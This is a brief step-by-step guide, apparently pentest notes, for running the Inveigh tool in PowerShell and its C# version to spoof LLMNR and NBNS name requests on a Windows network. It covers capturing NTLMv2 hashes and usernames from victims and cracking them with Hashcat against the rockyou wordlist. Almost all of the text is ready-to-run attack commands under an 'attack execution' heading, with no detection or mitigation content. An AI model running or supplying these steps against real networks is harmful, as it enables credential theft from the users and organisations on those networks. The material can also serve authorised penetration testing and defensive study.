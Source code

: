 ### **RUNNING INVEIGH IN POWERSHELL**

1.  Load the Inveigh module into PowerShell:  
    `Import-Module .\Inveigh.ps1`
2.  Check the available parameters for the Invoke-Inveigh cmdlet to understand its options.  
    `(Get-Command Invoke-Inveigh).Parameters`
3.  Run Inveigh to start spoofing LLMNR and NBNS requests, with console and file output enabled.  
    `Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y`

### **USING INVEIGHZERO (C# VERSION)**

1.  Run the C# version of Inveigh:  
    `.\Inveigh.exe`
2.  Interactive Console  
    Press `ESC` to enter the interactive console.
3.  Use the following commands within the interactive console to get specific information:
4.  Get one captured NTLMv2 hash per user:  
    `GET NTLMV2UNIQUE`
5.  Get usernames and source IPs/hostnames:  
    `GET NTLMV2USERNAMES`

### **STEP-BY-STEP ATTACK EXECUTION**

1.  Start Inveigh with Default Settings:  
    `Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y`
2.  Use the console commands to check captured hashes and usernames.
3.  Captured hashes are stored in the specified output directory. By default, they are saved in `C:\Tools`.
4.  Prepare Hashes for Cracking Ensure the hashes are in a compatible format for Hashcat.
5.  Run Hashcat:  
    `hashcat -m 5600 hash_file.txt /usr/share/wordlists/rockyou.txt`